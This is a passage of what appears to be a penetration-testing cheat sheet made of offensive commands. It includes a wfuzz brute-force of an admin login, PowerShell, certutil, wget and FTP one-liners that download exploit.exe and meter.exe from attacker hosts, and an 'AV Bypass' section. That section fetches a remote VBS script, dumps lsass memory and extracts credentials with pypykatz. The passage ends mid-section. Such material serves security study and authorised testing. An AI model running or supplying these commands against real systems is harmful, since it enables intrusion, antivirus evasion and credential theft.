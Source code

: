 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
`cscript wget.vbs http://<ip>/test.txt test.txt`

<b>powershell</b>

`powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"`

<b>ftp</b>

client:

<pre>
echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
</pre>

server:

<code>python -m pyftpdlib  --port=2121 --write</code>

<b>wget.exe</b>

Upload to vulnerable server from kali: ` /usr/share/windows-binaries/wget.exe`

`wget.exe http://<ip>/file file`

<b> certutil </b>

`certutil -urlcache -split -f  https://<ip>/file.txt file.txt`
  
<a name="vpnrestrict"></a><h3> Bypass VPN routing restrictions </h3>

<pre>openconnect vpnXXX02.XXXX.com -u XX -s ‘vpn-slice XXX.46.0.0/16 hostname3 mantis=XXX.41.2XX.68’</pre>

![vpn1](https://user-images.githubusercontent.com/7115563/41146909-30e484de-6b05-11e8-82fb-acfc17a722a2.png)

Reference: https://github.com/dlenski/vpn-slice

<a name="avbypass"></a><h3>AV Bypass</h3>

<b> Lsass Dump </b>

<pre>

certutil.exe -urlcache -f https://raw.githubusercontent.com/adon90/pentest_compilation/master/PostExplotation/mimi.vbs C:\Windows\temp\mimi.vbs

cscript mimi.vbs lsass.exe

pypykatz lsa minidump lsass.bin | tee -a dump1.txt 

</pre>

References: https://esmyl.medium.com/windows-memory-dump-cheat-sheet-23f32079304a

<b> SharpSploit </b>
```
